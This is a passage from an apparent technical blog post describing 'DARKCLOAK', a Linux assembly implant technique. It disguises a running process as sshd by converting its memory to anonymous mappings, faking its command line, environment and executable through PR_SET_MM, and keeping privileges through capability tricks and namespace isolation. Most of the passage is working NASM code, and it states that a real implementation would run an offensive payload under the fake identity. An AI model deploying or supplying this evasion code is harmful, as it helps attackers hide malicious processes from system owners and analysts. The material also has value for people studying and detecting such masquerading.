    mov rax, 9                  ; MMAP
    xor rdi, rdi                ; kernel chooses base address
    mov rsi, r15                ; size = segment size
    mov rdx, 0x3                ; PROT_READ | PROT_WRITE
    mov r10, 0x22               ; MAP_PRIVATE | MAP_ANONYMOUS
    mov r8, -1                  ; fd = -1 (anonymous)
    xor r9, r9
    syscall
    mov rbx, rax             

    ; copy the original segment content to the anonymous region
    mov rsi, r14                ; source = start address of the original segment
    mov rdi, rbx                ; destination = start address of the newly allocated anonymous region
    mov rcx, r15                ; number of bytes to copy from source
    cld
    rep movsb

    ; unmap the original segment (file-backed)
    mov rax, 11                 ; MUNMAP
    mov rdi, r14                ; start address of the original segment
    mov rsi, r15
    syscall

    ; relocate the anonymous region to the original segment's now-unmapped range
    mov rax, 25                 ; MREMAP
    mov rdi, rbx                ; source = start address of the anonymous region
    mov rsi, r15
    mov rdx, r15
    mov r10, 0x3                ; MREMAP_MAYMOVE | MREMAP_FIXED
    mov r8, r14                 ; destination = original start address of the segment
    syscall

    ; restore the original segment permissions
    mov rax, 10                 ; MPROTECT
    mov rdi, r14
    mov rsi, r15
    movzx rdx, r13d             ; original segment permissions
    syscall

    ret
mm_end:
```

Once it has served its purpose, the temporary page is unmapped:

```nasm
; Remove the temporary page

; .bss

    tmp_mm_addr resq 1   ; start address of the temporary page

; .text

un_tmp_mm:
    mov rax, 11                 ; MUNMAP
    mov rdi, [rel tmp_mm_addr]  ; start address of the temporary page
    mov rsi, 4096
    syscall
```

The complete anonymization sequence is as follows:

| Step | RIP location | Result |
| --- | --- | --- |
| **0** | `.text` | 3 file-backed VMAs. |
| **1** | `.text` | A temporary anonymous page is allocated. 3 file-backed VMAs + 1 anonymous VMA. |
| **2** | `.text` | Code and auxiliary data are copied to the new VMA. |
| **3** | `.text` | Execute permission is set on the temporary page. |
| **4** | Temporary page | Jump to the start of the new VMA. RIP leaves the initial `.text`. |
| **5** | Temporary page | ELF headers and PHT segment converted to anonymous memory. |
| **6** | Temporary page | Data segment converted to anonymous memory. |
| **7** | Temporary page | Code segment converted to anonymous memory. |
| **8** | Anonymized `.text` | Execution flow is returned to the now-anonymized `.text`. 4 anonymous VMAs. |
| **9** | Anonymized `.text` | The temporary trampoline is removed. 3 anonymous VMAs. |

With all original VMAs now anonymized, the `PR_SET_MM_*` operations are executed:

```nasm
; cmdline, environ and exe spoofing via PR_SET_MM

; .data

    mimic_cmdline db '/usr/sbin/sshd',0,'-D',0,'-oCiphers=aes256-gcm@openssh.com',0,'-oMACs=hmac-sha2-256',0,'-f',0,'/etc/ssh/sshd_config',0
    mimic_cmdline_length equ $ - mimic_cmdline
    mimic_environ db 'LANG=en_US.UTF-8',0,'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin',0,'NOTIFY_SOCKET=/run/systemd/notify',0,'INVOCATION_ID=a1b2c3d4e5f6',0
    mimic_environ_length equ $ - mimic_environ
    mimic_exe db '/usr/sbin/sshd',0

; .text

mm_spoof:

    ; redirect arg_start and arg_end to mimic_cmdline
    mov rax, 157
    mov rdi, 35                 ; PR_SET_MM
    mov rsi, 8                  ; PR_SET_MM_ARG_START
    lea rdx, [rel mimic_cmdline]
    xor r10, r10
    xor r8, r8
    syscall

    mov rax, 157
    mov rdi, 35
    mov rsi, 9                  ; PR_SET_MM_ARG_END
    lea rdx, [rel mimic_cmdline + mimic_cmdline_length]
    xor r10, r10
    xor r8, r8
    syscall

    ; redirect env_start and env_end to mimic_environ
    mov rax, 157
    mov rdi, 35
    mov rsi, 10                 ; PR_SET_MM_ENV_START
    lea rdx, [rel mimic_environ]
    xor r10, r10
    xor r8, r8
    syscall

    mov rax, 157
    mov rdi, 35
    mov rsi, 11                 ; PR_SET_MM_ENV_END
    lea rdx, [rel mimic_environ + mimic_environ_length]
    xor r10, r10
    xor r8, r8
    syscall

    ; replace the exe_file field of mm_struct
    mov rax, 257                ; OPENAT
    mov rdi, -100               ; AT_FDCWD
    lea rsi, [rel mimic_exe]    ; path of the executable to open ("/usr/sbin/sshd")
    xor rdx, rdx                ; O_RDONLY
    xor r10, r10
    syscall
    mov r14, rax                ; r14 = FD of the opened binary

    mov rax, 157
    mov rdi, 35                 ; PR_SET_MM
    mov rsi, 13                 ; PR_SET_MM_EXE_FILE
    mov rdx, r14                ; FD of the opened binary; kernel extracts the struct file and assigns it to exe_file
    xor r10, r10
    xor r8, r8
    syscall
```

!!! note ""
    By default, `argv[0]` and `cmdline` reference the same memory region. The `PR_SET_MM_ARG_START`/`ARG_END` call decouples both sources: `cmdline` now reads from `mimic_cmdline` in `.data`, while `argv[0]` on the stack remains independently modified. An analyst directly inspecting the stack will see the altered name, consistent with the value exposed through `cmdline`.


### Phase 6: Capability Retention

Before demoting UIDs, capabilities are retained so the kernel's UID fixup does not modify the capability sets to our detriment.

Depending on whether the process has the `CAP_SETPCAP` capability (bit 8), the most appropriate retention mechanism is selected:

```nasm
; Capability retention

; .bss

    datap resb 24   ; two contiguous __user_cap_data_struct (12 bytes each)

; .text

caps_ret:

		; check whether we have CAP_SETPCAP in the effective set
    xor r14, r14
    mov r14d, [rel datap]       ; datap[0].effective (caps 0–31)
    bt r14d, 8                  
    jc setpcap_effective        ; CF=1 → CAP_SETPCAP available

    ; without CAP_SETPCAP, use PR_SET_KEEPCAPS
    mov rax, 157
    mov rdi, 8                  ; PR_SET_KEEPCAPS
    mov rsi, 1
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    syscall
    jmp user_degrade

setpcap_effective:

    ; with CAP_SETPCAP, use PR_SET_SECUREBITS
    mov rax, 157
    mov rdi, 28                 ; PR_SET_SECUREBITS
    mov rsi, 12                 ; SECBIT_NO_SETUID_FIXUP | SECBIT_NO_SETUID_FIXUP_LOCKED
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    syscall
```

With `PR_SET_SECUREBITS`, all three capability sets survive the UID demotion intact. With `PR_SET_KEEPCAPS`, only the permitted set is preserved.

### Phases 7–8: UID and GID Demotion

UIDs are reduced to those of an unprivileged user. If `CAP_SETUID` (bit 7) is available, UID 1000 is used (conventionally the first non-root user on the system). Otherwise, the original UIDs stored in phase 2 are restored:

```nasm
; UID demotion

; .bss

    datap resb 24   ; two contiguous __user_cap_data_struct (12 bytes each)

; .text

user_degrade:

    ; check whether we have CAP_SETUID in the effective set
    xor r14, r14
    mov r14d, [rel datap]       ; datap[0].effective (caps 0–31)
    bt r14d, 7                  
    jc user_impersonate         ; CF=1 → CAP_SETUID available

    ; without CAP_SETUID, restore the initial UIDs
    mov rax, 117                ; SETRESUID
    mov edi, [rel ruid_val]     ; initial RUID
    mov esi, [rel euid_val]     ; initial EUID
    mov edx, [rel suid_val]     ; initial SUID
    syscall
    jmp capabilities_degrade

user_impersonate:

    ; with CAP_SETUID, set UIDs to 1000
    mov rax, 117                ; SETRESUID
    mov rdi, 1000               ; RUID = 1000
    mov rsi, 1000               ; EUID = 1000
    mov rdx, 1000               ; SUID = 1000
    syscall
```

The same logic is applied to GIDs using the `CAP_SETGID` capability (bit 6) and the `setresgid` syscall.

### Phase 9: Capability Demotion

The effective and inheritable sets are emptied while the permitted set is kept intact. Any capability present in the permitted set can be activated in the other sets later when needed.

```nasm
; Capability demotion

; .bss

    datap resb 24   ; two contiguous __user_cap_data_struct (12 bytes each)


; .text

capabilities_degrade:

    ; zero out effective and inheritable sets
    xor r14, r14
    mov [rel datap],    r14d    ; datap[0].effective   (caps  0–31) ← 0
    mov [rel datap+12], r14d    ; datap[1].effective   (caps 32–63) ← 0
    mov [rel datap+8],  r14d    ; datap[0].inheritable (caps  0–31) ← 0
    mov [rel datap+20], r14d    ; datap[1].inheritable (caps 32–63) ← 0

    mov rax, 126                ; CAPSET
    lea rdi, [rel hdrp]
    lea rsi, [rel datap]
    syscall
```

After this operation the process has no active capabilities (empty effective set).

### Phase 10: Namespace Isolation

DARKCLOAK creates new namespaces to isolate the process from the rest of the system:

```nasm
; Namespace isolation

; .text

    ; UNSHARE
    mov rax, 272                
    mov rdi, 0x78000000         ; CLONE_NEWUSER | CLONE_NEWPID | CLONE_NEWNET | CLONE_NEWIPC
    syscall
```

`CLONE_NEWUSER` is processed first and grants full capabilities within the new user namespace, which allows creating the other three (`CLONE_NEWPID`, `CLONE_NEWNET`, `CLONE_NEWIPC`) without needing to be root in the original namespace. The process ends up with its own PID within the new namespace, an empty network stack and isolated IPC.

### Phase 11: Wait and Exit

The process remains suspended for 120 seconds to allow observation of the changes made. After that interval, execution ends. In an ad-hoc implementation, this stage would be replaced by the offensive payload, which would execute under the spoofed identity layer.

```nasm
; Wait and exit

; .data

    timespec:
        dq 120  ; seconds
        dq 0    ; nanoseconds

; .text		

		; NANOSLEEP
		mov rax, 35                 
    lea rdi, [rel timespec]     ; 120 seconds
    xor rsi, rsi
    syscall
    
		; EXIT
    mov rax, 60                 
    xor rdi, rdi
    syscall
```

## Final State

Once all phases are complete, every queryable source has been modified. From this point on, the visible information of the process no longer corresponds to its initial state. It reflects the identity of the impersonated process.

{.img-centered width=920 }

## Acknowledgements

Thanks for making it this far.

If you find errors or want to improve/extend the article, the blog content is open to Pull Requests. All contributions are welcome.

Until the next series! ;)
